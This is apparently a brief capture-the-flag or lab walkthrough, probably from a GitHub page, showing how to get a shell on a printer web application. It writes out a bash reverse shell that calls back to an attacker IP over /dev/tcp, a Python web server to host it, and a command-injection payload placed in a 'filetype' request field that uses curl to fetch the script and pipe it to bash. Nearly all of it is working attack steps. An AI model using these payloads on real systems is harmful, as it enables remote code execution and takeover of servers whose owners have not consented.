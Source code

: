 1)I create a file with the reverse shell inside: 
```
nano reverse.sh

---> bash -i >& /dev/tcp/10.10.14.104/1234 0>&1
```
2)Open a webserver with python: 
```
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 8081 
```
3) On Burp you have to make a request (on the printer directory) to download a photo, and then you block it with the proxy and bring it to Repeater
4)Change the filetype field header to : 
```
filetype=jpg;curl+http://10.10.14.199:8081/reverse.sh+|+bash
```
